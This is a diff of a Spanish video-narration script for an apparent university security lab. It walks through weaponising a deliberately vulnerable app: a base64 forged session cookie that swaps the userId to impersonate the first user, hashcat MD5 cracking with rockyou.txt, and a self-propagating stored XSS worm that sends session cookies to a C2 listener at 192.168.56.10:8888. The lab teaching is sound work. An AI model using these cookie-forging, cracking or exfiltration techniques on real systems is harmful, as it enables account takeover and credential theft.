

Before and after one commit to MDiSc/vulnapxd, a Markdown page: docs/GUION_DEFENSA_VIDEO.md, the part around one of its changes. Shown at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/GUION_DEFENSA_VIDEO.md
+++ b/docs/GUION_DEFENSA_VIDEO.md
@@ -119,35 +127,39 @@
   echo -n '{"userId":1,"username":"usuario_prueba","role":"user"}' | base64 -w 0
   ```
 
-* **Narrativa en el Video:**
-  > *"Para la explotación de la **Falla Criptográfica (CWE-345)**, empaquetamos el vector de suplantación de sesión. Tomando la estructura JSON identificada en la Fase I, alteramos el identificador único del usuario (`userId`) cambiando el valor `2` (usuario estándar) por `1` (correspondiente al primer usuario o administrador del sistema).*
-  > *Re-codificamos esta estructura adulterada en Base64 utilizando la herramienta nativa de terminal. Dado que el servidor carece de mecanismos de firma HMAC para verificar la integridad del payload, este paquete queda listo para ser inyectado en la cabecera HTTP `Cookie: session=...` durante la fase de entrega."*
+* 🗣️ **Guión Hablado (Decir esto mientras se ejecuta el comando y se muestra el resultado en Base64):**
+  > *"A continuación, armamos el vector de explotación para la falla criptográfica **CWE-345 de Verificación Insuficiente de Autenticidad**. Afrontando la corrección establecida por la profesora, este ataque no se enfoca en un escalado de roles a nivel de aplicación, sino en demostrar la suplantación de identidad por manipulación de identificadores.*
+  > *Construimos un payload JSON en el cual alteramos el campo `userId`, cambiando el identificador `2` correspondiente al usuario estándar, por el identificador `1`, correspondiente al primer usuario registrado en la base de datos.*
+  > *Procedemos a codificar esta estructura adulterada en Base64 usando la herramienta de consola. Debido a que en la Fase I confirmamos la ausencia total de un código HMAC de verificación de integridad en el backend, empaquetamos esta cookie adulterada para inyectarla en la cabecera HTTP durante la fase de entrega."*
 
 ---
 
-#### 2.3 Preparación de la Suite de Cracking MD5 (CWE-327 / CWE-759 / CWE-916)
+### PASO 2.3: Configuración del entorno de criptoanálisis con Hashcat
 
-* **Acción en Pantalla:**
-  Mostrar el archivo de diccionario `rockyou.txt` o la sintaxis del comando `hashcat` preparado en pantalla.
+* 🖥️ **Acción Visual:**
+  El estudiante muestra en la terminal la presencia del diccionario de contraseñas de Kali y la verificación de la sintaxis de Hashcat para ataques sobre hashes MD5.
 
-* **Comando a mostrar en terminal Kali:**
+* ⌨️ **Comando a ejecutar:**
   ```bash
   ls -lh /usr/share/wordlists/rockyou.txt
   hashcat --help | grep -E "\-m 0"
   ```
 
-* **Narrativa en el Video:**
-  > *"Para vulnerar la confidencialidad de las credenciales de la base de datos, preparamos la fase de análisis criptoanalítico contra **CWE-327 (Uso de Algoritmo Criptográfico Obsoleto MD5)**, **CWE-759 (Hash Unidireccional sin Sal/Salt)** y **CWE-916 (Esfuerzo Computacional Insuficiente)**.*
-  > *Debido a que las contraseñas se almacenan mediante el algoritmo MD5 sin aplicar sal estocástica (salt), el proceso de derivación de claves es estrictamente determinista. Esto nos permite armar la herramienta `Hashcat` en la máquina atacante Kali Linux con el modo `-m 0` (MD5 puro) y el diccionario estandarizado `rockyou.txt` para llevar a cabo un ataque de colisión por preimagen en tiempo récord."*
+* 🗣️ **Guión Hablado (Decir esto mientras se ejecutan los comandos de verificación):**
+  > *"Para vulnerar la confidencialidad de las credenciales de la base de datos, preparamos la fase de análisis criptoanalítico contra tres debilidades criptográficas severas:*
+  > *1. **CWE-327: Uso de un Algoritmo Criptográfico Rompible**, al utilizar MD5.*
+  > *2. **CWE-759: Uso de un Hash Unidireccional sin Sal**, lo que genera hashes idénticos y deterministas.*
+  > *3. **CWE-916: Esfuerzo Computacional Insuficiente**, al ser MD5 un algoritmo diseñado para velocidad y no para protección de contraseñas.*
+  > *En la máquina atacante Kali Linux, verificamos la disponibilidad del diccionario masivo `rockyou.txt` y configuramos la suite `Hashcat` especificando el parámetro `-m 0`, correspondiente al modo de ataque directo sobre hashes MD5 puros. Las armas quedan calibradas para revertir cualquier hash extraído en cuestión de segundos."*
 
 ---
 
-#### 2.4 Armamento del Gusano Stored XSS Autorreplicante (CWE-79 / CWE-116)
+### PASO 2.4: Ensamblaje del Gusano Autorreplicante Stored XSS y Servidor C2
 
-* **Acción en Pantalla:**
-  Mostrar el script de payload XSS preparado en `PAYLOADS_REFERENCIA.txt` o en el archivo `red-team/04_xss_worm_payload.py`.
+* 🖥️ **Acción Visual:**
+  El estudiante muestra en pantalla el código JavaScript del script malicioso que se inyectará en la mensajería, destacando las líneas de exfiltración.
 
-* **Código del Payload en Pantalla:**
+* ⌨️ **Código a mostrar en pantalla:**
   ```html
   <script>
   (async function(){
@@ -156,17 +168,9 @@
   </script>
   ```
 
-* **Narrativa en el Video:**
-  > *"Finalmente, armamos el vector de ataque para la categoría **OWASP A05:2025 Stored XSS (CWE-79: Cross-Site Scripting)**. Diseñamos un payload en JavaScript asíncrono que aprovecha la renderización insegura mediante `innerHTML` en el cliente (CWE-116).*
-  > *El script preparado ejecutará dos acciones simultáneas al ser interpretado por la víctima: primero, extraerá el contenido del objeto `document.cookie` y lo enviará silenciosamente vía HTTP GET hacia nuestro servidor de Comando y Control (C2) a la IP `192.168.56.10:8888`. Segundo, propagará automáticamente este vector enviando un mensaje a los demás usuarios de la plataforma."*
+* 🗣️ **Guión Hablado (Decir esto mientras se muestra el código JavaScript):**
+  > *"Por último, ensamblamos el arma ofensiva para la categoría **OWASP A05:2025 - Stored XSS (CWE-79: Cross-Site Scripting)** combinada con **CWE-116: Codificación Inadecuada de Salida**.*
+  > *Programamos un payload en JavaScript asíncrono autocontenido que se alojará de forma persistente en la base de datos a través del endpoint de mensajes. Al ser interpretado por el navegador de cualquier víctima debido al uso de `innerHTML` en el frontend, el script ejecutará una exfiltración sigilosa de la cookie de sesión mediante una petición `fetch` asíncrona apuntando a nuestro listener de Comando y Control (C2) en la IP `192.168.56.10` en el puerto `8888`.*
+  > *Con todos nuestros vectores calibrados, probados y justificados teóricamente, damos por finalizada la Fase II de Armamento y estamos listos para la fase de ejecución."*
 
 ---
-
-## 📊 RESUMEN DE MAPEO METODOLÓGICO
-
-| Fase CKC | Vulnerabilidad Mapeada | CWE Asociados | Herramientas Utilizadas |
-|---|---|---|---|
-| **Fase I: Reconocimiento** | Superficie de API & Cookies Base64 | CWE-311, CWE-345 | `ffuf`, `curl -i`, `base64 -d` |
-| **Fase II: Armamento** | SQLi, Cookie Tampering, MD5, XSS | CWE-89, CWE-327, CWE-759, CWE-916, CWE-79, CWE-116 | `payload_sqli.json`, `Hashcat`, `Base64 CLI`, Script JS XSS |
-
----
````
Also changed, not shown: other parts of docs/GUION_DEFENSA_VIDEO.md (+57 -49 lines).
